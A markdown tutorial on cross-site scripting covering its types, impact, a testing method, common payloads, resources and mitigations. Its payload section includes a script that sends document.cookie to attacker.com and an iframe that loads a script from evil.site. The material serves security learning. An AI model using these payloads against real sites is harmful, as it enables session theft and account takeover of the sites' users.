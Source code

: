 ```markdown
# 🎯 Cross-Site Scripting (XSS) 
*Web vulnerability where attackers inject malicious scripts into trusted websites*

---

## 📖 Table of Contents
- [📜 Definition](#-definition)
- [🔀 Types of XSS](#-types-of-xss)
- [💥 Impact](#-impact)
- [🔍 Testing Methodology](#-testing-methodology)
- [📌 Common Payloads](#-common-payloads)
- [📚 Resources](#-resources)

---

## 📜 Definition
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:
- Session hijacking 🕵️
- Phishing attacks 🎣
- Defacement 🏴

---

## 🔀 Types of XSS

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️ 

---

## 🔍 Testing Methodology
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     - Page content 🔎  
     - HTML source code (`Ctrl+U`) 📄  
     - Network responses (DevTools) 🌐  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads
### Basic Tests
```html
<script>alert(1)</script>
"><svg/onload=confirm(1)>
```

### Advanced Attacks
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```

📖 Full Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)

---

## 📚 Resources
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation
- **Sanitize Inputs**: Remove/escape HTML tags.  
- **Use CSP Headers**:  
  ```http
  Content-Security-Policy: default-src 'self'
  ```
- **Avoid Unsafe Functions**:  
  ```javascript
  // UNSAFE ❌
  element.innerHTML = userInput;
  
  // SAFE ✅
  element.textContent = userInput;
  ```

---
